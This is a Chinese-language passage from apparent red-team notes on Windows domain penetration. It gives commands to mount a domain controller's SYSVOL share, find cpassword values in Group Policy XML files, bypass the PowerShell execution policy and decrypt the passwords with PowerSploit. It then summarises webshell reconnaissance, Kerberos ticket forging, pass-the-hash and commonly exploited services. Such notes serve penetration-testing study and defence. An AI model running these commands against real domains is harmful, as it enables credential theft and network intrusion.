 > > Services\Services.xml,
> >
> > ScheduledTasks\ScheduledTasks.xml,
> >
> > Printers\Printers.xml,
> >
> > Drives\Drives.xml,
> >
> > DataSources\DataSources.xml
>
> > net use \\\域控(如pc.xx.com) password /user:xxx.com\username 
> >
> > dir \\\域控\SYSVOL /s /a > sysvol.txt
> >
> > findstr /i "groups.xml" sysvol.txt
>
> 找到 cpassword
>
> 解密过程：
>
> > set-executionPolicy bypass
> >
> > powershell -ep bypass   启动 ps
> >
> > Import-Module .\GPP.ps1
> >
> > Get-DecryptedCpassword  xxxxxxxxxxxxxx
>
> 脚本link：
>
> > https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
>
> 利用 SYSVOL 还原组策略中保存的密码
>
> > https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8SYSVOL%E8%BF%98%E5%8E%9F%E7%BB%84%E7%AD%96%E7%95%A5%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/
>
> ### 总结
>
> 首先，利用 webshell 执行开篇的命令收集内网前期信息(不局限用 webshell)，也可以用 msf 等平台，或 powershell 收集信息，判断机器所处区域，是 DMZ 区，还是办公区，核心 DB 等;机器作用是文件服务器，Web，测试服务器，代理服务，还是 DNS，DB 等;网络连通性，文中也提到测试 dns，tcp，http 等命令，理清内网拓扑图，网段，扫描内网，路由，交换机，端口等判断是域还是组，组的话，用常见 web 方法，域的话 gpp，kerberos，黄金白银票据，抓密码，这里注意密码有的有空格，pth，ptk,spn 扫描，ipc,445,web 漏洞，各种未授权，密码相同等，期间会遇到提权，bypass uac，bypass av.
>
> ### 某些大佬语录
>
> 利用漏洞配置不当获取更多主机权限
>
> 常见应用漏洞：
>
> > struts2、zabbix、axis、ImageMagic、fastcgi、Shellshock、redis未授权访问、Hadoop、weblogic、jboss、WebSphere、Coldfusion
>
> 常见语言反序列化漏洞
>
> > php、Java、python、ruby、node.js
>
> 数据库漏洞及配置不当
>
> > mssql Get-SQLServerAccess、MySQL 低版本 hash 登陆、MySQL 低版本Authentication Bypass、域内 mssql 凭证获取密码、monggodb 未授权访问、memcache 配置不当
>